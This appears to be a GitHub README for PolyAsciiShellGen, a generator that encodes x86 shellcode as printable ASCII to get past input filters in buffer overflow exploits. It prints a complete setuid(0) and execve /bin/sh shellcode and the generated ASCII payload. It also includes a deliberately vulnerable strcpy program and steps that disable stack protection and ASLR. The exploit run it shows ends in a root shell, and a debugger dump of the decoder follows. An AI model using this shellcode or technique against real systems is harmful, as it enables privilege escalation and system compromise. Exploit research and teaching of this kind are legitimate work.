# PolyAsciiShellGen (x86, 32 bits)
## Polymorphic Ascii Shellcode Generator to bypass MSB data filters for buffer overflow exploits on Intel platforms.

More information about this technique on the Riley "caezar" Eller publication:

[http://julianor.tripod.com/bc/bypass-msb.txt](http://julianor.tripod.com/bc/bypass-msb.txt)


Compile the PolyAsciiShellGen program:

<code>$ make && make clean</code>

Usage:

```
# ./PolyAsciiShellGen
usage: PolyAsciiShellGen <esp offset> <nop sleed factor N * 4 NOPS> <shellcode "\xOP\xOP"...>

```

Example with a setuid(0) & execve(/bin//sh,0,0) shellcode:
```
# ./PolyAsciiShellGen -270 10 "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\xa4\xcd\x80\x31\xc0\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xcd\x80"
TX-KKKK-KKKK-xjiiP\%0000%AAAA-9%%%-GJJJP-hhNh-th3%-Q6-5P-yyyZ-yZy6-L6---2-8-P-7KKd-%Kdz-%RkzP-xxxx-GGGx-0AFiP-OOOO-jOwO-iaraP-NN%N-a%%a-q44tP-%SS0-%SL5-7uC%P-FkFF-9pUhP-XXXX-XXXX-PXOFP-AAAj-0w2j-0w-vPPPPPPPPPP

```

Injection in a vulnerable program in a buffer of 512 bytes:
```
#include <string.h>
#include <stdio.h>

int foo(char *str)
{
	char buffer[512];
	printf("[buffer addr] 0x%x: %s\n\n", &buffer, str);
	strcpy(buffer, str);
	return 0;
}


int main(int argc, char *argv[])
{
	if(argc != 2)
		exit(0);
	foo(argv[1]);
}

```

Compile the vulnerable program without security memory protections against the stack buffer overflow exploits:
```
#gcc -fno-pie -fno-stack-protector -z execstack -m32 -g vuln.c -o vuln
```

Set the program with the set-uid root bit, for use all the funtionalities of the shellcode:
```
#chown root:users vuln
#chmod u+s vuln 
#ls -l vuln
-rwsr-xr-x 1 root users 7068 Jul  6 02:37 vuln
```

Deactivate the ASLR:
```
#echo 0 > /proc/sys/kernel/randomize_va_space
```

Injecte the shellcode on the buffer and write the return address:
```
$./vuln "TX-KKKK-KKKK-xjiiP\%0000%AAAA-9%%%-GJJJP-hhNh-th3%-Q6-5P-yyyZ-yZy6-L6---2-8-P-7KKd-%Kdz-%RkzP-xxxx-GGGx-0AFiP-OOOO-jOwO-iaraP-NN%N-a%%a-q44tP-%SS0-%SL5-7uC%P-FkFF-9pUhP-XXXX-XXXX-PXOFP-AAAj-0w2j-0w-vPPPPPPPPPP"$(perl -e 'print "\xd0\xd6\xff\xff"x80')

[buffer addr] 0xffffd6d0: TX-KKKK-KKKK-xjiiP\%0000%AAAA-9%%%-GJJJP-hhNh-th3%-Q6-5P-yyyZ-yZy6-L6---2-8-P-7KKd-%Kdz-%RkzP-xxxx-GGGx-0AFiP-OOOO-jOwO-iaraP-NN%N-a%%a-q44tP-%SS0-%SL5-7uC%P-FkFF-9pUhP-XXXX-XXXX-PXOFP-AAAj-0w2j-0w-vPPPPPPPPPP��������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������
sh-4.3#whoami
root
```

The debugger view:
```
$gdb -q vuln
(gdb) l
32		char buffer[512];
33	
34		printf("[buffer addr] 0x%x %s\n", &buffer, str);
35	
36		strcpy(buffer, str);
37	
38		return 0;
39	}
40	
41	
(gdb) b 38
Breakpoint 1 at 0x8048493: file vuln.c, line 38.
(gdb)  r "TX-KKKK-KKKK-xjiiP\%0000%AAAA-9%%%-GJJJP-hhNh-th3%-Q6-5P-yyyZ-yZy6-L6---2-8-P-7KKd-%Kdz-%RkzP-xxxx-GGGx-0AFiP-OOOO-jOwO-iaraP-NN%N-a%%a-q44tP-%SS0-%SL5-7uC%P-FkFF-9pUhP-XXXX-XXXX-PXOFP-AAAj-0w2j-0w-vPPPPPPPPP"$(perl -e 'print "\x70\xd6\xff\xff"x80')

...

Breakpoint 1, foo (str=0xffffda00 "") at vuln.c:38
38		return 0;
(gdb) p &buffer
$1 = (char (*)[512]) 0xffffd670
(gdb) nexti
0x08048499	39	}
(gdb) nexti
0xffffd670 in ?? ()
(gdb) p $esp - $eip
$3 = 528
(gdb) x/60i $eip
=> 0xffffd670:	push   esp
   0xffffd671:	pop    eax
   0xffffd672:	sub    eax,0x4b4b4b4b
   0xffffd677:	sub    eax,0x4b4b4b4b
   0xffffd67c:	sub    eax,0x69696a78
   0xffffd681:	push   eax
   0xffffd682:	pop    esp
   0xffffd683:	and    eax,0x30303030
   0xffffd688:	and    eax,0x41414141
   0xffffd68d:	sub    eax,0x25252539
   0xffffd692:	sub    eax,0x4a4a4a47
   0xffffd697:	push   eax
   0xffffd698:	sub    eax,0x684e6868
   0xffffd69d:	sub    eax,0x25336874
   0xffffd6a2:	sub    eax,0x352d3651
   0xffffd6a7:	push   eax
   0xffffd6a8:	sub    eax,0x5a797979
   0xffffd6ad:	sub    eax,0x36795a79
   0xffffd6b2:	sub    eax,0x2d2d364c
   0xffffd6b7:	sub    eax,0x2d382d32
   0xffffd6bc:	push   eax
   0xffffd6bd:	sub    eax,0x644b4b37
   0xffffd6c2:	sub    eax,0x7a644b25
   0xffffd6c7:	sub    eax,0x7a6b5225
   0xffffd6cc:	push   eax
   0xffffd6cd:	sub    eax,0x78787878
   0xffffd6d2:	sub    eax,0x78474747
   0xffffd6d7:	sub    eax,0x69464130
   0xffffd6dc:	push   eax
   0xffffd6dd:	sub    eax,0x4f4f4f4f
   0xffffd6e2:	sub    eax,0x4f774f6a
   0xffffd6e7:	sub    eax,0x61726169
   0xffffd6ec:	push   eax
   0xffffd6ed:	sub    eax,0x4e254e4e
   0xffffd6f2:	sub    eax,0x61252561
   0xffffd6f7:	sub    eax,0x74343471
   0xffffd6fc:	push   eax
   0xffffd6fd:	sub    eax,0x30535325
   0xffffd702:	sub    eax,0x354c5325
   0xffffd707:	sub    eax,0x25437537
   0xffffd70c:	push   eax
   0xffffd70d:	sub    eax,0x46466b46
   0xffffd712:	sub    eax,0x68557039
   0xffffd717:	push   eax
   0xffffd718:	sub    eax,0x58585858
   0xffffd71d:	sub    eax,0x58585858
   0xffffd722:	sub    eax,0x464f5850
   0xffffd727:	push   eax
   0xffffd728:	sub    eax,0x6a414141
   0xffffd72d:	sub    eax,0x6a327730
   0xffffd732:	sub    eax,0x762d7730
   0xffffd737:	push   eax
   0xffffd738:	push   eax
   0xffffd739:	push   eax
   0xffffd73a:	push   eax
   0xffffd73b:	push   eax
   0xffffd73c:	push   eax
   0xffffd73d:	push   eax
   0xffffd73e:	push   eax
   0xffffd73f:	push   eax
   0xffffd740:  push   eax
(gdb)

```


have fun !! 

